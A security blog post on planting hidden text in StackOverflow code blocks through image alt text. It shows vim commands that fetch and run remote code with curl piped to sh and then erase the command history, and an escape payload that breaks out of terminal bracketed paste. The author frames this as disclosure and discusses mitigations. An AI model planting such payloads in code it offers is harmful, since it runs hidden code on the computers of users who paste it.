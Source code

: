 ```yaml
---
layout: post
title: Clipboard subversion on StackOverflow
categories: security, hacking
---
```

Because Markdown is really a mixture of Markdown syntax and raw HTML to
fill in gaps where Markdown can't do the job, having user-generated
content in Markdown format doesn't help to curb malicious content.
Users are still publishing HTML and have opportunities to embed
something malicious or sneaky.

In the case of StackOverflow, you end up being able to do things like
switch to `<pre>` formatting without escaping all of the contained text
as raw code; so you can embed HTML in the blocks which look like the
code you would want to copy-paste, but with surprise semantics.

The obvious thing is to put some text in a block marked invisible, but
there are mitigations preventing that because that would be a sneaky
thing to do.  Instead you can embed images, and provide alt text for
those images, and you can make those images practically invisible,
and when people copy the text in that code block they'll also
pick up the alt text which they couldn't see on the web page.

Like so:
```markdown
Here is my solution:

<pre>my<img src="https://example.com/invisible_image.gif" alt=" malicious" /> code</pre>

It's really good!
```

You can go try things out in a [sandbox][].  Be warned that not
everything that appears in the preview window is going to turn out
exactly the same once you post it.

Imagine the possibilities!

And yes, I _have_ reported those possibilities which I could imagine to
Stack Exchange.  More on that later.

If you're clever then you might be able to drop in an extra character
somewhere which has a profound effect on the meaning of the code.

You can also emulate non-printing keystrokes by sending their escape
sequences or control codes.  This leads applications to take actions
based on those keystrokes rather than inserting them into an edit buffer
as plain old text.

What sort of keystrokes might you insert?  It depends on where you
expect that the text will be pasted.  Maybe a newline, to make a command
execute before the user is ready; and/or some backspaces to subtly
modify the text after it's been reviewed (replace an 8 with an &, for
example).

But those can be detected easily.  Something more nefarious would be to
target a text editor.  Let's take a crack at vim, for example.
To maximise the chances that the user will be using vim when they
paste your text try offering something to be pasted somewhere like
`~/.vimrc`.  If somebody wants to modify that file what editor do you
think they're going to use?  Typically not emacs.

So if you know you're in vim you could embed something like an escape
character, to enter command mode, and then some commands, like these
ones:

```vim
:call system('(curl -s https://example.com/evilcode|sh)&')
:call histdel('cmd','evilcode')
```

The first executes a shell to get curl to download some code and run it;
and it does so in the background rather than waiting for it to finish.
The second deletes every history entry containing `evilcode`, so it
deletes evidence of our malicious act and, conveniently, it deletes
itself as well.

After that drop back into insert mode and keep adding plausible text to
the file to clear the status line of the result of the last command.

Notice that these are both short commands which will almost certainly
fit on one line.  If they're longer then there's a much greater risk
that the drawing and redrawing of a multi-line command buffer will be
visible to the user, if only in a brief flash which might attract
unwanted attention.

And tere we go.  Running arbitrary code on a random SO user's computer,
and they can't see us doing it!  What fun!

Would I be telling you this if it was really so easy?  No.  OK, maybe.
But it's not.

To mitigate this the terminal and application or shell should be using
[bracketed paste][], which ensures that pasted text is surrounded by
delimiters which indicate that it shouldn't be interpreted as escape
sequences but raw text to be inserted into the file or whatever.

But those delimiters are what?  They're escape sequences.  So you just
put the end marker for bracketed paste into your text in order to make
everything after that be interpreted by the application as keyboard
input again -- just like before bracketed paste was a thing.

Like so:
```html
<img &hellip; alt="&#27;[201~ keyboard input here" />
```

Thankfully a lot of terminals (and after a few months of prodding developers, a few more terminals) strip out some control codes
from pasted text, and this breaks the ability to embed the codes
necessary to escape bracketed paste mode this way.

OSX's Terminal.app even brings up a message box explicitly telling you
you're under attack if it sees the relevant escape sequence.  I think
that's great.  Most other terminals just strip out control codes in some
way or other.

I can't promise that all terminals are filtering correctly, though.

But of course there's yet another potential weakness.  If you can get an
incomplete escape sequence sent then the application can be tricked into
_missing_ the begin-bracketed-paste escape sequence.  To illustrate this
you can simply hit Escape right before pasting something into the
terminal when it should be using bracketed paste.  The resulting
double-escape can cause the bracketed paste opening to be mis-parsed, so
everything that follows is still seen as keystrokes.  You might not be
able to send escapes, but you might still get backspace and newline
through.

To set up such preconditions might take a bit of network timing
manipulation, or remarkable knowledge of unfixed bugs in termcap
entries, or some kind of social engineering to exploit this, so maybe
we're all safe.

I can't promise that, though.

So you might be asking "where's the responsible disclosure?".  Well, I
went through it all years ago.  I tried to cut this off at StackOverflow
first (don't let people embed surprise text, don't let people embed
control codes in text), and then in the browser (don't copy control
codes embedded in HTML text), and then in some terminals (don't let
escape sequences escape the esape sequence that says to ignore other
escape sequences).  For the most part the issue was dismissed as
somebody else's problem, and everybody preferred to keep things as they
are rather than risk breaking some unspecified case which somebody might
be using legitimately.

The only people to take me seriously were Apple, and I got an SVE out of
it for my efforts.  That's probably because I gave them a whole proof of
concept which ran arbitrary code and made it invisible to the user that
arbitrary code had been run (except that I waved a flag to say it had
happened to prove it).

Of course there are still gaps that I see.  There will always be gaps
when systems we rely on are assembled the way they are.  There is a
_lot_ I do not agree with in the way things were designed, here.  The
intrinsic weakness of layers upon layers of escape sequences is absurd
to me, but it's also industry standard and an evergrowing problem as
people design more systems which function this way.  It's become
normalised and there's no stopping it anymore.

The other thing that frustrates me about reporting
vulnerabilities is when they're only superficially addressed.
Just enough to stop me digging any deeper.
When the front door is open you can make a case for security in depth
by pointing out consequential weaknesses behind the door and asking for them all
to be fixed, but too often the reaction is to just close the
door.  What happens when somebody else finds an open window?

Maybe by the time you read this the ability to embed image alt text will have been superficially addressed and you'll have to look for an open window.  Good luck!

[bracketed paste]: <https://en.wikipedia.org/wiki/Bracketed-paste>
[sandbox]: <https://meta.stackexchange.com/q/3122/227423>
[My PoC]: <https://security.stackexchange.com/a/183377>
